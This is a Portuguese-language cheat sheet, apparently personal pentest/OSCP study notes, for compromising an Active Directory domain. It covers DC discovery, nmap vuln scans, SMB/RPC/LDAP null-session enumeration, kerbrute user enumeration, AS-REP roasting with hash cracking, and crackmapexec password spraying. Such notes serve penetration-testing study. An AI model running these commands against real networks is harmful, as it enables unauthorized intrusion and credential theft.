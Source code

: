 1-ActiveDirectoryEnum
========================

Nesse primeiro momento o objetivo é comprometer uma máquina do domínio com as técnicas e comandos empregadas nesta página.

## 1 - Enumerar IP dos DCs, portas/serviços e nome de domínio

### 1 - Obtém IP address do DC (domain controller)

Como primeiro objetivo temos que levar em conta a enumeração de portas/serviços por meio do nmap e enumerar nome do domínio, assim como o IP dos domains controllers:

linux

    nslookup -type=srv _ldap._tcp.dc._msdcs.redecorp.br
    nslookup -type=srv _kerberos._tcp.EXMAPLE.COM
    nslookup -type=srv _kpasswd._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.EXAMPLE.COM
    nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM

windows

    nslookup
    set type=all
    _ldap._tcp.dc._msdcs.redecorp.br

Outra opção seria:

    nltest /dclist:oscp.exam

    nltest /dclist:domainname
 
Vale considerar que este útlimo comando só funciona se a máquina já está no domínio.

### 2 - Obtém Dominio

    enum4linux -a <hostname>

#uma outra opção seria:

    enum4linux -a -A <hostname>

atenção com este comando, porque o domínio que me retornou não foi o mesmo identificado no comando anterior.

    crackmapexec smb <hostname>

### 3 - Obtém serviços

    sudo nmap -p- -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt

    sudo nmap -p- --max-retries 1 -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt

Vulns scan nmap

    sudo nmap -sS --script vuln -n -T5 -Pn <hostname> -p <ports> | tee nmap_vulns.txt

Esta última parte pode ser vista com mais detalhes em:

<https://app.gitbook.com/o/2Zy5rWlDaAhU300B2fZ9/s/2fOHXOTMpimVG5xlFKld/2_Enumeration/enumeration-resumo-2024-02-10t20_25_35>

Como exemplo mais comum encontrados nos cenários, segue as enumerações mais convenientes para os ambientes de ADs (mas não se resume somente a isso, é necessário cosultar melhor as demais informações no link acima)...

Enumerate shares null session

    smbclient -U '' -N -L <hostname>

    crackmapexec smb <hostname> -u '' -p '' --shares

    sudo nmap -p 445,139 -Pn -T5 <hostname> --script smb-enum-shares

GUEST ACCESS

    smbclient -U 'guest%' -N -L <hostanme>

    crackmapexec smb <hostname> -u '' -p '' --shares

RPC null session

    rpcclient -N -U '' <hostname>

    srvinfo
    querydominfo
    enumdomusers
    enumdomgroups
    querygroup 0x200
    netshareenum
    netshareenumall

Enumerate LDAP


    ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"

## 2 - Enumeração de usuário de domínio

Aqui vale considerar que, por meio da enumeração devemos considerar os possíveis arquivos existentes que conseguimos obter e fazer possíveis nomes de usuários com esses conteúdos,. No demais, seguem comandos que podem nos auxiliar quanto a esta tarefa:

Via Kerberos

    kerbrute userenum -d <domain> --dc <hostname> users_temp.txt

    kerbrute userenum --domain <domain> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc <hostname>

    nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt <hostname>

Via RPC

    rpcclient -U <domain>/<username> <hostname>
    rpcclient -U "DOMAIN\\" <hostnames> -N
    enumdomusers
    enumdomgroups

Enum4linux

    enum4linux -u <username> -p <password> -U 10.10.10.179

Via SMB

    crackmapexec smb <hostname> --users

Ldapsearch

    ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"


lookupsid

    impacket-lookupsid <domain>@<hostname>

Via Web

Não existe um comando específico para obter noomes de usuários específicos, por motivos óbvios, porém, podemos gerar possíveis nomes de usuários com o cewl, com o seguinte comando:

    cewl http://<hostname>/ > users_temp.txt

## 3 - Obter hashes de senha/senha ou exploits de serviços expostos e brute force
  
Este ponto é bem interessante, porque aqui temos várias possibilidades disponíveis e algumas delas deixarei documentado em uma outra página que depois deixarei o link. Mas para fins de AD, podemos considerar os principais que seriam:

### AS-REP Roasting

    impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users_temp.txt -format john -outputfile hashes_temp.txt

Se der sucesso:

    john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt

Exploração de serviço
Neste caso, devemos considerar outra página para conseguir algum tipo de exploração. De modo geral, são:
Web - SQLi
CVEs
Chaves expostas por meio de aplicações web
Exposição de senhas via GPP - Group.xml
Password Spray
Aqui podemos aplicar algumas técnicas sendo elas user = password, mais os usuários que já temos no dicionário:

    cat users.txt > passwords.txt
    crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
    crackmapexec smb hosts.txt -u users.txt -p passwords_test.txt --continue
    
    crackmapexec winrm hosts.txt -u users.txt -p passwords_test.txt --continue